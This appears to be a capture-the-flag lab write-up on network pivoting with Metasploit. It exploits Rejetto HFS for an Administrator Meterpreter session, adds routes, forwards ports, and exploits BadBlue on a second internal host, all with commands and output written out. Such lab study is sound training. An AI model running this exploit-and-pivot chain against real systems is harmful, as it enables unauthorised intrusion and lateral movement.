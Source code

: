 # 🔬Pivoting

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Victim1 IP: `10.2.20.197`
> - VIctim2 IP: `10.2.31.35`
> - **Pivoting** technique with a *network route* to the internal network's subnet

## Enumeration & Exploitation

```bash
ping 10.2.20.197
    PING 10.2.20.197 (10.2.20.197) 56(84) bytes of data.
    64 bytes from 10.2.20.197: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.20.197: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.31.35
	PING 10.2.31.35 (10.2.31.35) 56(84) bytes of data.
# No response from Victim2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV -p 80 10.2.20.197
	80/tcp open  http  HttpFileServer httpd 2.3
```

```bash
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.20.197
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
	
ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:58:bb:f0:89:2a
    MTU          : 9001
    IPv4 Address : 10.2.20.197
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::d192:bf14:b3e2:1211
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    
    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:14c5
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Victim2 is on the same Victim1 subnet - **`	10.2.16.0/20`** (look at the Interface 12)
  - ` 10.2.16.0/20` = from `10.2.16.1` to ` 10.2.31.254` = `10.2.20.0/20`


## Pivoting

- From the attacker's machine, a route through "Victim1 `10.2.20.0/20` machine" is needed, to run MSF modules against Victim2 machine

```bash
run autoroute -s 10.2.20.0/20
```

```bash
[+] Added route to 10.2.20.0/255.255.240.0 via 10.2.20.197

run autoroute -p
```

- Now, subnet `10.2.20.0/20` can be accessed with `MSFconsole`

```bash
background
```

- Scan for open ports on the Victim2 system - `10.2.31.35`

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.31.35
set PORTS 1-100
run
```

![](assets/image-20230429181515706.png)

- 📌 The route is only applicable to `MSFconsole`, not outside of it

## Port Forwarding

- To perform an `nmap` scan on Victim2, **a port forwarding need to be set up**.
  - **`e.g.`** forward the remote port `80` to an attacker machine local port, which will allow to perform a service version enumeration of the Victim2 service

```bash
sessions 1
```

```bash
portfwd add -l 1234 -p 80 -r 10.2.31.35
	[*] Local TCP relay created: :1234 <-> 10.2.31.35:80

background
```

```bash
db_nmap -sS -sV -p 1234 localhost
```

![Victim2 Port 80 Service](assets/image-20230429181718891.png)

- Exploit Victim2 target machine

```bash
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.31.35
set LPORT 4433
run
```

![](assets/image-20230429181838691.png)

```bash
background
sessions
```

![](assets/image-20230429182027415.png)

------


